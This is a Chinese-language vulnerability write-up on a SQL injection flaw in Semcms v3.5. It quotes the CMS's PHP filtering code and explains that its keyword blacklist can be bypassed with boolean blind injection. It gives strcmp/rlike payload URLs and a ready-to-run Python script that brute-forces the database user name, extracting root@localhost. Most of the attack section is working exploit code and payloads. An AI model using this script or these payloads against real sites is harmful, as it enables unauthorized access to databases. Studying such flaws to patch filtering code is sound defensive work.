


Semcms v3.5 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms v3.5

三、复现过程
------------

### 漏洞分析

在分析过程中看到网上已经有人发现semcms
V2.4存在过滤不严导致sql注入的漏洞，不知道咋还没改，而且最新版过滤的关键字更少了。

首先查看首页文件index.php的代码

    1 <?php
    2 include_once  'Include/web_inc.php';
    3 include_once  'Templete/default/Include/Function.php';
    4 $file_url="";
    5 include_once  'Templete/default/Include/default.php';
    6 ?>
     1 //网站logo
     2 
     3 $weblogo=$web_url_meate.str_replace('../','',$row['web_logo']);
     4 
     5 // 控制文字标签 更改 获取的 语种 id
     6 
     7 if (isset($_GET["languageIDD"])){$Language=test_input(verify_str($_GET["languageIDD"]));}else{$Language=verify_str($Language);}
     8 
     9 if(!empty($Language)){
    10 
    11       //网站SEO设定
    12 
    13       $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
    14       $row=mysqli_fetch_array($query);
    15       $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
     1 // 防sql入注
     2 
     3 if (isset($_GET)){$GetArray=$_GET;}else{$GetArray='';} 　　　　//所有GET方式提交的变量都进行防注入检查
     4  
     5 foreach ($GetArray as $value){ //get
     6     
     7     verify_str($value);
     8   
     9 }
    10 
    11 function inject_check_sql($sql_str) {
    12   
    13      return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);　　　　//过滤关键字
    14 } 
    15 
    16 function verify_str($str) { 
    17  
    18    if(inject_check_sql($str)) {
    19    
    20        exit('Sorry,You do this is wrong! (.-.)');　　　　　　//如果出现关键字则提示
    21     } 
    22  
    23     return $str; 
    24 }
     1 function test_input($data) { 　　　　　　　　　　　　　　　　　　//防止XSS
     2       $data = str_replace("<script", "", $data);
     3       $data = str_replace("</script>", "", $data);
     4       $data = str_replace("%", "percent", $data);
     5       $data = trim($data);
     6       $data = stripslashes($data);
     7       $data = htmlspecialchars($data,ENT_QUOTES);　　　　//实体编码
     8       return $data;
     9 
    10    }

　　可以看到第16行的函数verify\_str()调用inject\_check\_sql()用来过滤危险字符，函数test\_input用来过滤xss。其中可以明显地看到第11行的函数inject\_check\_sql()采用白名单的方式是有缺陷的，我们可以用布尔盲注来绕过

### 漏洞复现

    http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x72) rlike 0　　　　显示正常

    http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x73) rlike 0　　　　显示错误

参考网上已有的fuzz盲注脚本改了下，代码如下

    #用python3版本
    import requests
    url = "http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1"
    print("Testing url: " + url)
    #十进制数33-126间的ascii hex值
    payload = ["0x21","0x22","0x23","0x24","0x25","0x26","0x27","0x28","0x29","0x2a",
                "0x2b","0x2c","0x2d","0x2e","0x2f","0x30","0x31","0x32","0x33","0x34",
                "0x35","0x36","0x37","0x38","0x39","0x3a","0x3b","0x3c","0x3d","0x3e",
                "0x3f","0x40","0x41","0x42","0x43","0x44","0x45","0x46","0x47","0x48",
                "0x49","0x4a","0x4b","0x4c","0x4d","0x4e","0x4f","0x50","0x51","0x52",
                "0x53","0x54","0x55","0x56","0x57","0x58","0x59","0x5a","0x5b","0x5c",
                "0x5d","0x5e","0x5f","0x60","0x61","0x62","0x63","0x64","0x65","0x66",
                "0x67","0x68","0x69","0x6a","0x6b","0x6c","0x6d","0x6e","0x6f","0x70",
                "0x71","0x72","0x73","0x74","0x75","0x76","0x77","0x78","0x79","0x7a",
                "0x7b","0x7c","0x7d"
               ]
    user = ""
    for b in range(len(payload)):
        for a in payload:
            #sql_payload_user = " and strcmp(substr(database(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))    #当前数据库名称
            sql_payload_user = " and strcmp(substr(user(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))            #当前数据库用户名
            res = requests.get(url + sql_payload_user).text
            res1 = requests.get(url).text
            if len(res) == len(res1):        #如果返回的内容长度大小一样，则表示匹配成功
                user = user + a
                print(" ")
                print("[*]info : 0x" + user.replace("0x","").upper())
                break
            else:
                print('\r',"Match failed,Next.....",end='')

测试结果如下图

解码ascii
hex值0x726F6F74406C6F63616C686F7374为root\@localhost。当然因为过滤了select，获取表名就有点困难了，t00ls中看到有人介绍用selselectect来绕过的方式跟这个CMS的过滤方式是不一样的，所以行不通。暂时想到的办法是可以找一与验证密码有关的注点，因为这个注点包含表名，所以可以通过fuzz猜测其字段名，最后通过字段名取得字段值，可以看下这篇文章[blind-sql-injection-burpsuite-like-a-boss(要翻墙)](https://depthsecurity.com/blog/blind-sql-injection-burpsuite-like-a-boss)

参考链接
--------

> <https://www.cnblogs.com/st404/p/10087191.html>
